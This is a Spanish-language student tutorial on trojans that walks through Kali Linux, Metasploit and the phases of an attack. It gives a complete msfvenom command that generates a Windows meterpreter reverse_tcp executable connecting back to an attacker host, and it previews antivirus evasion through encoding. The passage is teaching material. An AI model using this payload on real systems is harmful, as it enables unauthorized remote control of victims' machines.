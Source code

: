 # Demostración práctica: Troyanos
Aun siendo este trabajo eminentemente práctico hemos querido preparar una demostración práctica que sustente lo ya expuesto. Ya que los términos en los que hemos discutido los conceptos anteriores han sido de carácter general hemos optado por hacer lo mismo en esta demostración. Esto es, en vez de buscar un ataque tremendamente específico hemos escogido uno sencillo que nos permita analizar la base teórica de la que hacen uso de una manera clara y concisa.

Con el objetivo de arrojar incluso más luz sobre el malware oculto en general y los troyanos en particular decidimos incluso preparar nuestra propia versión con el objetivo de asentar los conocimientos adquiridos a la vez que relacionábamos el contenido de esta asignatura con el de otras impartidas en el grado.

Creemos que con lo anterior hemos logrado demostrar las características básicas de este tipo de ataques que suelen ser, además, el primer paso en una cadena mucho más compleja.

## Trabajando con Kali
Nuestro objetivo con esta sección no es solo analizar el funcionamiento de los troyanos sino también brindar una pequeña "guía" que permita a cualquiera recrear nuestras pruebas. Es por ello que es necesario describir el sistema con el que se ha generado todo.

Dadas las facilidades que nos ofrece hemos escogido Kali Linux para generar los payloads (más sobre ellos a continuación) y controlar las máquinas comprometidas. Kali es una distribución que usa Linux como kernel y que se basa en el archiconocida Debian. Sobre esta base robusta se ha instalado una gran cantidad de herramientas comunmente empleadas en muchas áreas de la ciberseguridad como puede sern la ingeniería social, la ruptura de contraseñas, auditoría de redes WiFi... En nuestro caso estamos interesados en Metasploit y sus programas relacionados. Metasploit es un framework que nos permite generar ataques contra vulnerabilidades conocidas de una manera clar y rápida. Dado el soporte que ofrece la firma Rapid7, afincada en Boston, nuevas vulnerabilidades y los ataques que las aprovechan se añaden de manera continua. En definitiva, es una herramienta que permite preparar ataques de una manera rápida y que además ofrece una forma clara de continuar con la post-explotación una vez hemos conseguido acceder a la máquina víctima.

Si bien Metasploit es una herramienta tremendamente potente nosotros solo hemos arañado la superficie de la funcionalidad que nos ofrece. En nuestro caso haremos uso del intérprete de órdenes msfconsole y del generador de payloads msfvenom. Ambas herramientas se encuentran instaladas por defecto con lo que no nos las tendremos que ver con la compilación de una suite de herramientas tan extensa...

## Terminología y fases del ataque
Tras haberlo mencionado varias veces creemos que es el momento de esclarecer el significado del payload. El término payload es un anglicismo al que en español nos solemos referir como carga útil en el contexto de las redes que es en el que nos hemos formado. En este ámbito el payload es código que, de ser ejecutado, nos brinda acceso al sistema objetivo. Quizá lo más importante de esta última oración es la palabra "ejecutado". Si bien el payload es el paso anterior a conseguir el acceso que buscamos no vale de nada que esté almacenado en disco; necesitamos que de alguna manera se ejecute.

Para lograr esta ejecución de código arbitraria tenemos que sacar partido a alguna vulnerabilidad. Estas vulnerabilidades son errores en programas o interacciones entre partes del sistema que pueden ser aprovechadas para llevar a cabo acciones a priori no permitidas. La vulnerabilidad por si sola no implica nada, simplemente está ahí, esperando a ser arreglada mediante una actualización. Los atacantes sin embargo intentarán aprovecharla para lograr sus objetivos. En nuestro caso, la ejecución del payload que hemos preparado.

La forma de aprovechar la vulnerabilidad es a través de un exploit. Este exploit suele ser un programa que toma acciones para intentar aprovechar una vulnerabilidad determinada. Teniendo en cuenta la relación entre vulnerabilidades y exploits aprovechamos para señalar por qué es tan importante trabajar con equipos actualizados. Además de funcionalidades nuevas las actualizaciones se encargan de "parchear" vulnerabilidades que se han encontrado para evitar que puedan ser aprovechadas...

En nuestro caso estamos interesados en analizar lo que ocurre una vez se ejecuta el payload, no en la forma de lograrlo. Si aplicamos estos conceptos a raja tabla, en nuestro caso el exploit es el usuario, es quien va a ejecutar el programa que nos dará acceso a su sistema. Una vez analizado el funcionamiento de nuestro troyano entraremos a explicar una forma en la que podemos explotar el lector de PDFs Adobe Acrobat Reader para que no dependamos de el usuario. Creemos que al posponer esta explicación conseguiremos centrar la atención en el malware propiamente dicho mientras que, dada la independencia entre las fases del ataque, no dificultamos seguir esta demostración.

De la discusión anterior se desgrana el proceso común de ataque a un sistema víctima:

- Generar el payload que deseamos ejecutar en la víctima
- Encontrar una vulnerabilidad que podamos aprovechar
- Ejecutar el exploit que saque partido a esa vulnerabilidad para lograr ejecutar el payload
- Ejecutar el payload generado en la víctima para conseguir, en nuestro caso, acceso al sistema
- Emplear el acceso al sistema para lo que se desee: escalada de privilegios, conseguir información...

Con este esquema claro pasamos a detallar cada una de las partes.

## Generando el payload: MSFVENOM
Para facilitar la comprensión de este paso podemos aludir a la formación que hemos adquirido en asignaturas como Sistemas Operativos o Programación en las que estudiamos el proceso que nos lleva desde un archivo fuente *.c a un ejecutable compilado. De manera muy resumida podemos decir que el código fuente pasa por el preprocesador que sustituirá todas las directivas #include <>. A continuación el archivo resultante pasa por el compilador que se encargará de generar archivos objeto *.o para después enlazarlo junto con los demás gracias al enlazador. Tras este último paso llegamos a nuestro ejecutable funcional.

Si observamos este ejecutable con una herramienta como xxd solo veremos una ristra de bytes comprensibles por nuestro equipo, el denominado código máquina. Ahora, si hacemos lo propio con los payloads generados por MSFVENOM veremos que, en efecto, es análogo a un programa compilado. Con esto queremos demostrar que MSFVENOM simplemente nos devuelve ejecutables ya generados. Nosotros podremos controlar qué tipo de payload queremos pero, al final del día, simplemente se nos devuelve un programa listo para ejecutar.

Si bien los lenguajes interpretados como Python están cobrando cada vez más notoriedad en el mundo actual no debemos olvidarnos de las sutilezas que entraña la compilación de programas. Los sistemas operativos se caracterizan por una serie de parámetros como son el kernel o núcleo que emplean o la arquitectura para la que están diseñados. Esto implica que programas generados para una plataforma que se sustente sobre Linux no son compatibles con otros que corran sobre Windows NT, el kernel del sistema operativo homónimo. Bien es verad que existen interfaces del sistema operativo estñandar como POSIX pero no podemos aventurarnos a asegurar que un programa escrito para Windows corra en otro basado en Linux y viceveresa. Lo que es más, dentro de cada una de las familias anteriores distinguimos arquitecturas impuestas por las características físicas de la máquina, siendo las más típicas la de 64 bits (amd64/x64) y la ya algo obsoleta de 32 bits (i386/x86). Al igual que antes un programa compilado para una arquitectura no será compatible con la otra.

Teniendo en cuenta las variables que hemos descrito llegamos a que podemos generar 4 tipos de payloads en función del objetivo que tengamos. Estas 4 variables son:

- Linux - 64 bits
- Linux - 32 bits
- Windows - 64 bits
- Windows - 32 bits

Con esto en mente debemos alterar la salida que nos ofrece MSFVENOM a través de sus opciones para generer el payload deseado. Con el fin de ocultar la complejidad de usar la herramienta directamente hemos escrito un script de bash (la shell por defecto de Kali y otras muchas distribuciones) que se encarga de esto por nosotros. El script en cuestión es `gen_payload.sh`. No obstante, adjuntamos una invocación de ejemplo de MSFVENOM para comentar qué efecto tiene cada una de sus opciones:

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=5000 -f exe -o win_pyld.exe
```

Con lo anterior estamos generando el payload `win_pyld.exe`. La arquitectura y plataforma de este programa vienen dadas por las opciones `-a` y `--platform` respectivamente. Consultando los valores pasados vemos que se trata de una máquina que ejecuta la versión de 64 bits de Windows. Asimismo, el tipo de payload seleccionado es `windows/x64/meterpreter/reverse_tcp`. En la siguiente sección comentaremos el funcionamiento de la misma. Dado el payload escogido debemos pasar 2 opciones que se introducirán en el código del mismo. En este caso son la IP (`LHOST`) y el puerto (`LPORT`) de la máquina atacante. En secciones subsiguientes estudiaremos por qué son necesarias estas opciones. Finalmente especificamos el formato del payload generado con la opción `-f`. Dado que el formato estándar de los archivos ejecutables en Windows. Este archivo generado tendrá, ademas del programa propiamente dicho, las instrucciones necesarias para que el loader de Windows lo cargue correctamente.

Como ya comentamos anteriormente, uno de los mecanismos más comunes para detectar malware es la comparación de archivos sospechosos con firmas almacenadas en bases de datos que se han asociado a algún archivo malicioso. Con la orden anterior hemos generado el payload sin intentar ocultarlo de ninguna manera. Más adelante comentaremos como, a traves de un proceso denominado codificación, podemos intentar ocultar este programa malicioso para así inhibir o al menos dificultar el trabajo de los antivirus.

En definitiva, lo que hemos logrado generar es un programa que, de ser ejecutado en la máquina víctima, nos proporcionará acceso desde la máquina atacante.

## Llevando a cabo el ataque

